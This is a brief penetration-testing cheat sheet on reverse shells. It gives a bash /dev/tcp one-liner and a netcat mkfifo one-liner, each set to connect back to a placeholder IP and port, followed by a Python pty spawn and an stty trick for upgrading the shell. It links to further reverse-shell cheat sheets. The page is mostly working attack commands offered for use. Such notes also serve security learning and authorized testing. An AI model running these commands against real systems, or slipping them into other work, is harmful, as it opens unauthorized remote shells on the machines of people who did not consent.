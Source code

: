 # Reverse Shell

## One-Liners

#### Bash

```bash
bash -i >& /dev/tcp/<IP>/<port> 0>&1
```

#### Netcat

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <port> >/tmp/f
```

Sometimes one one-liner won't work, but another will. Two great cheatsheets are [pentestmonkey ](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)and [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

## Shell Persistence

if the shell is terminal-based some measures can be taken to make the shell more comfortable to use.

### Spawn TTY

#### Python

```text
python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

[more](https://netsec.ws/?p=337).

### Auto Completion

Background the process with Ctrl+z.

Execute this to disable echoing and send I/O straight through without processing.

```text
stty raw -echo
```

[Additional cushions](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2).



